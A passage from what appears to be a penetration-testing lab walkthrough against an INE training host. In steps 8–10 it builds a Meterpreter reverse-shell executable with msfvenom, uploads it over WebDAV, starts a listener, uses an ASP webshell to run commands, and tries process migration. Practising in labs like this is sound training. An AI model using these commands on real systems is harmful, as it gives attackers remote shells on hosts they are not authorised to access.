 **Step 8**.

`msfvenom -p windows/x64/meterpreter/reverse_tcp -a x64 --platform Windows LHOST=10.10.80.3 LPORT=4444 -f exe -o /root/Desktop/reverse_tcp64.exe`

`cadaver http://demo.ine.local/webdav`:
```
Authentication required for demo.ine.local on server `demo.ine.local':
Username: administrator
Password: 
dav:/webdav/> put /root/Desktop/reverse_tcp64.exe 
Uploading /root/Desktop/reverse_tcp64.exe to `/webdav/reverse_tcp64.exe':
Progress: [=============================>] 100.0% of 7168 bytes succeeded. ←
```

`msfconsole -q`, `search multi handler`, `use exploit/multi/handler`, `set PAYLOAD windows/x64/meterpreter/reverse_tcp`, `set LHOST 10.10.80.3`, `set LPORT 4444`, `exploit`.

**Step 9**.

`firefox http://demo.ine.local/webdav &`.

`http://demo.ine.local/webdav/webshell.asp?cmd=where+%2FR+C%3A%5C+reverse_tcp64.exe` (`where /R C:\ reverse_tcp64.exe`):
```
\\DOTNETGOAT\Administratordemo.ine.local


The server's port:
80


The server's software:
Microsoft-IIS/10.0


The server's local address:
10.4.17.83C:\inetpub\wwwroot\webdav\reverse_tcp64.exe ←
```

`C:\inetpub\wwwroot\webdav\reverse_tcp64.exe`.

**Step 10**.

`ps -S explorer.exe`:
```
Filtering on 'explorer.exe'

Process List
============

 PID   PPID  Name          Arch  Session  User  Path
 ---   ----  ----          ----  -------  ----  ----
 4248  4200  explorer.exe
```

`migrate 4248`:
```
[*] Migrating from 4596 to 4248...
[-] Error running command migrate: Rex::RuntimeError Cannot migrate into this process (insufficient privileges)
```
